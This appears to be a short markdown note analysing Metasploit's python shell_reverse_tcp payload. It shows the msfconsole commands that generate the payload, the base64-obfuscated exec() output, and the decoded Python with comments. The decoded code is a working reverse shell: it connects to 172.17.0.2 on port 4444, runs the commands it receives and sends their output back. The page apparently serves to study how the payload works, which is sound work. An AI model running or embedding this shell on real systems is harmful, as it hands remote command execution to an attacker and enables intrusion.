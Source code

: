 # Metasploit python shell_reverse_tcp (single payload)

## Single payload

Source: https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/payload/python/reverse_tcp.rb

### Generate
```
msf5 > use payload/python/shell_reverse_tcp
msf5 payload(python/shell_reverse_tcp) > generate -f raw -o single.py
```

### Result
```python
exec('aW1wb3J0IHNvY2tldCxvcwpzbz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSkKc28uY29ubmVjdCgoJzE3Mi4xNy4wLjInLDQ0NDQpKQpPeD1GYWxzZQp3aGlsZSBub3QgT3g6CglkYXRhPXNvLnJlY3YoMTAyNCkKCWlmIGxlbihkYXRhKT09MDoKCQlPeD1UcnVlCglzdGRpbixzdGRvdXQsc3RkZXJyLD1vcy5wb3BlbjMoZGF0YSkKCXN0ZG91dF92YWx1ZT1zdGRvdXQucmVhZCgpK3N0ZGVyci5yZWFkKCkKCXNvLnNlbmQoc3Rkb3V0X3ZhbHVlKQo='.decode('base64'))
```

### Base64 Decoded Content
```python
import socket,os
so=socket.socket(socket.AF_INET,socket.SOCK_STREAM)   # create TCP socket
so.connect(('172.17.0.2',4444))                       # connnect to 172.17.0.2 on port 4444
Ox=False
while not Ox:
	data=so.recv(1024)                                  # recv cmd buffer
	if len(data)==0:
		Ox=True
	stdin,stdout,stderr,=os.popen3(data)                # exec cmd as subprocess
	stdout_value=stdout.read()+stderr.read()
	so.send(stdout_value)                               # return stdout/stderr
```
